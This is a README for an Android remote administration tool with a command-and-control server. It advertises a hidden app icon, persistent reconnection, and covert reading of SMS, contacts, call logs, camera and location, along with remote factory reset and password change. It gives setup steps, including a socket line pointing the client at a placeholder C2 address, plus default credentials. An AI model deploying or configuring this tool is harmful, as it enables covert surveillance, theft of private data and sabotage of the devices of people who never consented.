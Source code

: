 # Moukthar

Codebase foundation for an Android Remote Administration Tool with C2 Server

## Features
- Persistent reconnection with C2 regardless if the client application is closed or placed in background or the device is restarted or current connection is interrupted
- Hidden App Icon
- Send/Read SMS
- Write/Read Contacts
- Read Call Log
- Dial USSD code without opening dialer (API 26+)
- Take Picture (Front/Back camera)
- Take Screenshot
- Make Phone Call
- List Installed Apps
- Vibrate Phone
- Get Device Location
- Change Wallpaper
- Factory Reset Device
- Reboot Device
- Change Device Password

![Android](https://img.shields.io/badge/Android-3DDC84?style=for-the-badge&logo=android&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-FFFFFF?style=for-the-badge&logo=flask&logoColor=black)
![Java](https://img.shields.io/badge/java-%23ED8B00.svg?style=for-the-badge&logo=java&logoColor=white)

## NB
```
USERNAME: android
PASSWORD: the rastafarian in me
```
<!-- PEM PASS PHRASE: android -->
Replace the domain value with your ip/domain in ```__init__.py``` wherever you see the line
```python
resp.set_cookie(key="", value="", expires="", domain="your ip/domain")
```
to enable Remember Me functionality in the Login page.

Specify the URL of the C2 server in the [Client app](client/app/src/main/java/com/ot/androidrat/MainService.java#L32).

```java
Socket ioSocket = IO.socket(URI.create("http://C2_ADDRESS:5001"));
```

## Production Environment Setup
For linux envitonments, run ```server/setup.sh``` with a privileged user to make moukthar a service.
```console
user@pc1:~/moukthar$ chmod +x ./server/setup.sh
user@pc1:~/moukthar$ sudo ./server/setup.sh
```

### Nginx
```/etc/nginx/sites-available/moukthar```
```nginx
server{
    listen 80;
    server_name moukthar;
    access_log /var/log/nginx/moukthar.access.log;
    error_log /var/log/nginx/moukthar.error.log;

    location / {
       include proxy_params;
       proxy_pass https://127.0.0.1:5001;
    }
}
```
## Screenshots
![Login Page](screenshots/login.png)
![Dashboard](screenshots/dashboard.png)
![Files](screenshots/files.png)
![Reset Password](screenshots/reset%20password.png)
![Client app requesting permissions 1](screenshots/app-permission1.png)
![Client app requesting permissions 2](screenshots/app-permission2.png)
![Client app](screenshots/client-app.png)

## Warning
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

